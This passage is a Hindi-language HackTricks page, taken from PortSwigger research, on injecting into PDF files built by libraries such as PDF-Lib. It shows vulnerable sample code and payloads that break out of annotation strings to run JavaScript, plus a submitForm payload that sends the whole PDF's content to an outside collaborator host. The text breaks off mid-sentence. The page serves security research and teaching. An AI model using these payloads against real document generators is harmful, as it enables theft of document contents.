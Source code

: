 <details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>


**यदि आपका इनपुट PDF फाइल के अंदर प्रतिबिंबित हो रहा है, तो आप JavaScript निष्पादित करने या PDF सामग्री चुराने के लिए PDF डेटा इंजेक्ट करने का प्रयास कर सकते हैं।**

निम्नलिखित जानकारी [**https://portswigger.net/research/portable-data-exfiltration**](https://portswigger.net/research/portable-data-exfiltration) से ली गई थी

## PDF-Lib

इस बार, मैं [PDFLib](https://pdf-lib.js.org) का उपयोग कर रहा था। मैंने लाइब्रेरी का उपयोग करके एक एनोटेशन बनाने और देखने के लिए समय लिया कि क्या मैं एनोटेशन URI में एक समापन कोष्ठक इंजेक्ट कर सकता हूँ - और यह काम कर गया! एनोटेशन कोड जेनरेट करने के लिए मैंने जो नमूना भेद्य कोड इस्तेमाल किया वह था:

`...`  \
`A: {`\
`Type: 'Action',`\
`S: 'URI',`\
``URI: PDFString.of(`injection)`),``\
`}`\
`})`\
`...`

[पूरा कोड:](https://github.com/PortSwigger/portable-data-exfiltration/blob/main/PDF-research-samples/pdf-lib/first-injection/test.js)

मुझे कैसे पता चला कि इंजेक्शन सफल था? PDF सही ढंग से रेंडर होती थी जब तक मैंने एक समापन कोष्ठक इंजेक्ट नहीं किया। इससे साबित होता है कि समापन कोष्ठक स्ट्रिंग से बाहर निकल रहा था और अमान्य PDF कोड का कारण बन रहा था। PDF को तोड़ना अच्छा था, लेकिन मुझे सुनिश्चित करना था कि मैं जावास्क्रिप्ट निष्पादित कर सकूं। मैंने रेंडर किए गए PDF कोड को देखा और देखा कि आउटपुट FlateDecode फिल्टर का उपयोग करके एन्कोड किया जा रहा था। मैंने ब्लॉक को डिफ्लेट करने के लिए एक छोटी स्क्रिप्ट लिखी और एनोटेशन सेक्शन का आउटपुट इस तरह दिखाई दिया:`<<`\
`/Type /Annot`\
`/Subtype /Link`\
`/Rect [ 50 746.89 320 711.89 ]`\
`/Border [ 0 0 2 ]`\
`/C [ 0 0 1 ]`\
`/A <<`\
`/Type /Action`\
`/S /URI`\
`/URI (injection))`\
`>>`\
`>>`

जैसा कि आप स्पष्ट रूप से देख सकते हैं, इंजेक्शन स्ट्रिंग एक समापन कोष्ठक के साथ टेक्स्ट सीमा को बंद कर रही है, जिससे एक मौजूदा समापन कोष्ठक बचता है जो PDF को गलत तरीके से रेंडर करने का कारण बनता है:

![PDF लोड करते समय एक त्रुटि संवाद दिखाते हुए स्क्रीनशॉट](https://portswigger.net/cms/images/34/f4/3ed2-article-screenshot-showing-damaged-pdf.png)

बहुत बढ़िया, तो मैं PDF की रेंडरिंग को तोड़ सकता था, अब क्या? मुझे एक ऐसे इंजेक्शन के साथ आने की जरूरत थी जो कुछ जावास्क्रिप्ट को कॉल करता - PDF इंजेक्शन का अलर्ट(1)।

जैसे कैसे XSS वेक्टर्स ब्राउज़र की पार्सिंग पर निर्भर करते हैं, PDF इंजेक्शन की भेद्यता PDF रेंडरर पर निर्भर कर सकती है। मैंने Acrobat को लक्षित करना शुरू किया क्योंकि मुझे लगा कि वेक्टर्स Chrome में कम संभावना रखते हैं। दो चीजें जो मैंने देखीं: 1) आप अतिरिक्त एनोटेशन एक्शन्स इंजेक्ट कर सकते हैं और 2) यदि आप मौजूदा समापन कोष्ठक की मरम्मत करते हैं तो PDF रेंडर होगी। कुछ प्रयोग करने के बाद, मैंने एक अच्छा पेलोड बनाया जिसने एक अतिरिक्त एनोटेशन एक्शन इंजेक्ट किया, जावास्क्रिप्ट निष्पादित किया, और समापन कोष्ठक की मरम्मत की:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action>>/>>(`

पहले मैं कोष्ठक से बाहर निकलता हूँ, फिर शब्दकोश से बाहर निकलने के लिए >> का उपयोग करता हूँ इससे पहले कि एक नया एनोटेशन शब्दकोश शुरू करूँ। /S/JavaScript एनोटेशन को जावास्क्रिप्ट-आधारित बनाता है और /JS वह जगह है जहाँ जावास्क्रिप्ट संग्रहीत होती है। कोष्ठक के अंदर हमारी वास्तविक जावास्क्रिप्ट है। ध्यान दें कि यदि वे संतुलित हैं तो आपको कोष्ठक को एस्केप करने की आवश्यकता नहीं है। अंत में, मैं एनोटेशन का प्रकार जोड़ता हूँ, शब्दकोश को समाप्त करता हूँ, और समापन कोष्ठक की मरम्मत करता हूँ। यह बहुत अच्छा था; मैं एक इंजेक्शन बना सकता था जो जावास्क्रिप्ट निष्पादित करता था लेकिन तो क्या हुआ, है ना? आप जावास्क्रिप्ट निष्पादित कर सकते हैं लेकिन आपके पास DOM तक पहुँच नहीं है, इसलिए आप कुकीज़ नहीं पढ़ सकते। फिर जेम्स ने सुझाव दिया कि इंजेक्शन से PDF की सामग्री चुराई जा सकती है। मैंने PDF की सामग्री प्राप्त करने के तरीकों को देखना शुरू किया। Acrobat में, मैंने पाया कि आप बिना किसी उपयोगकर्ता इंटरैक्शन के जावास्क्रिप्ट का उपयोग करके फॉर्म सबमिट कर सकते हैं! जावास्क्रिप्ट API के लिए स्पेक देखते हुए, यह काफी सीधा था कि मूल इंजेक्शन को संशोधित करें और कुछ जावास्क्रिप्ट जोड़ें जो पूरी PDF कोड की सामग्री को एक POST अनुरोध में एक बाहरी सर्वर पर भेजेगी:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);`\
`this.submitForm({`\
`cURL: 'https://your-id.burpcollaborator.net',cSubmitAs: 'PDF'}))`\
`/Type/Action>>/>>(`

अलर्ट की आवश्यकता नहीं है; मैंने इसे सिर्फ यह साबित करने के लिए जोड़ा कि इंजेक्शन जावास्क्रिप्ट निष्पादित कर रहा था।

अगला, सिर्फ मजे के लिए, मैंने जावास्क्रिप्ट का उपयोग किए बिना PDF की सामग्री चुराने को देखा। PDF स्पेसिफिकेशन से, मैंने पाया कि आप एक एक्शन क
